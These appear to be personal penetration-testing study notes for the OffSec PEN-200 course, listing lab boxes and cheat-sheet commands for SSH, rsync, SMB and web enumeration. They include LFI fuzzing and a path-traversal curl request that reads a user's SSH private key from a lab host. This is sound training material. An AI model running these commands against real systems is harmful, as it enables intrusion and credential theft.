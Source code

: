 - https://portal.offsec.com/courses/osa-pen-200-39188/learning/hacktrack-assembling-the-pieces-part-1-214527/hacktrack-assembling-the-pieces-part-1-214528
- Boxes: DVR4, : helpdesk, law
- Additional practice (when ready): Apex, xposedapi, reconstruction, slort, payday, uc404
---
### SSH /22
```bash
ls -1 /usr/share/nmap/scripts/ssh
sudo nmap -p 22 --script ssh-auth-methods 192.168.IP
``` 
### RSYNC / TCP 873
- daemon similar to SMB
```bash
rsync -av --list-only rsync://192.168.50.234/
rsync -av rsync://192.168.50.234:873/<file> <destination>
```
### Cheatsheet
```bash
# directories and files, not recursive
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u http://vanity.offsec/FUZZ/
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt-u http://vanity.offsec/uploads/FUZZ
# feroxbuster probably better here, as uses medium word list, we can add extensions -x php,html,js,txt etc..
# ferox default depth is 4

# SMB linux anonymous/no credntial check
nxc smb 192.168.IP --username '' --password ''
enum4linux 192.168.IP

# Inspect with curl 
curl -s http://192.168.IP:8080/about.html | html2te

# Fuzzing DIR Traversal/LFI, send through burp -p
wfuzz -c -z file,win-path.txt --hc 404 -p "127.0.0.1:8080:HTTP" "http://192.168.50.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=FUZZ"
ffuf -c -w win-path.txt -fc 404 -x http://127.0.0.1:8080 "http://192.168.50.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=FUZZ"

# ffuf, -c colorize, -fc filter code, -x proxy, 
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt				# Linux
/usr/share/seclists/Fuzzing/LFI/LFI-Windows-adeadfed.txt	# Windows
/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt				# sqli 

# Data ssh id_rsa Exfil with Curl, send through BURP proxy -x, silent -s
curl -s"http://192.168.IP:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2F%2Essh%2Fid_rsa" -x http://localhost:8080
```
## 9,10 Hacktrack: SQL Injection Attacks
 - https://portal.offsec.com/courses/osa-pen-200-39188/learning/hacktrack-sql-injection-attacks-214535/hacktrack-sql-injection-attacks-214536
- Boxes : butch, Hepet
- Additional practice (when ready): hawat, pebbles, megavolt
## Resources
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-blind
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://pentestmonkey.net/category/cheat-sheet/sql-injection